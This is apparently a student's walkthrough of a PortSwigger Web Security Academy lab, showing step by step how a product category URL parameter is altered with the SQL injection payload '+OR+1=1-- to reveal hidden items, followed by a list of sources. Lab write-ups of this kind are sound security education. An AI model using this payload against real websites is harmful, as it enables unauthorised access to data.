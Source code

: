 > [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Steps

1.  Open the lab

   <img src="C:\Users\ferna\OneDrive - HESSO\Documents\02_School\00_HAAGA-HELIA\Semester VII\01_Information Security - Tero Karvinen\01_Assignments\h2\h2\image-20230902155147985.png" alt="image-20230902155147985" style="zoom:67%;" />

2. Click on a category, here I have clicked on "Accessories"

   Here is the url: https://0a59008003193495d93876050029002e.web-security-academy.net/filter?category=Accessories

   ![image-20230902154623467](C:\Users\ferna\OneDrive - HESSO\Documents\02_School\00_HAAGA-HELIA\Semester VII\01_Information Security - Tero Karvinen\01_Assignments\h2\h2\image-20230902154623467.png)

3. Modify the `category` parameter in the url, giving it the value `'+OR+1=1--`

   https://0a59008003193495d93876050029002e.web-security-academy.net/filter?category=Accessories%27+OR+1=1--

4. Now you can see all the hidden products !

<img src="C:\Users\ferna\OneDrive - HESSO\Documents\02_School\00_HAAGA-HELIA\Semester VII\01_Information Security - Tero Karvinen\01_Assignments\h2\h2\image-20230902154756233.png" alt="image-20230902154756233" style="zoom:67%;" />

# Sources and links

- *A05 Security Misconfiguration - OWASP Top 10:2021*. https://owasp.org/Top10/A05_2021-Security_Misconfiguration/. Accessed 30 Aug. 2023.
- *A06 Vulnerable and Outdated Components - OWASP Top 10:2021*. https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/. Accessed 30 Aug. 2023.
- *A03 Injection - OWASP Top 10:2021*. https://owasp.org/Top10/A03_2021-Injection/. Accessed 30 Aug. 2023.
- *Install Webgoat 8 - Learn Web Pentesting*. https://terokarvinen.com/2020/install-webgoat-web-pentest-practice-target/. Accessed 30 Aug. 2023.
- *ChatGPT - OpenAI* [ChatGPT (openai.com)](https://chat.openai.com/?model=text-davinci-002-render-sha) Accessed 30 Aug. 2023.
- *SQLZOO*. https://sqlzoo.net/wiki/SQL_Tutorial. Accessed 2 Sept. 2023.
- *Read the Notes about This Table. - SQLZOO*. https://sqlzoo.net/wiki/Read_the_notes_about_this_table. Accessed 2 Sept. 2023.
- *Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data | Web Security Academy*. https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data. Accessed 2 Sept. 2023.
